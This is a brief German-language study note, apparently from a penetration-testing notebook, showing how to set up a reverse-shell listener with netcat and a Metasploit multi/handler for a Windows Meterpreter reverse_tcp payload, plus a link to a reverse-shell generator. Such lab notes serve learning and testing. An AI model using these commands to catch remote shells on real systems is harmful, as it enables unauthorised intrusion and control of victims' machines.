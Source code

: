 

Einfaches Reverse Shell Beispiel.

Listener auf Kali mit `nc`

```sh
$ nc -vv -l -p 9001
# -v           verbose [use twice to be more verbose]
# -l           listen mode, for inbound connects
# -p port      local port number
```

Reverse shell "Generator":  [www.revshells.com](https://www.revshells.com)

![image-20210702120802609](fig/image-20210702120802609.png)

Interessante Option `-x` von `msfconsole`:

```sh
$ msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.10.10; set lport 9001; exploit"
```


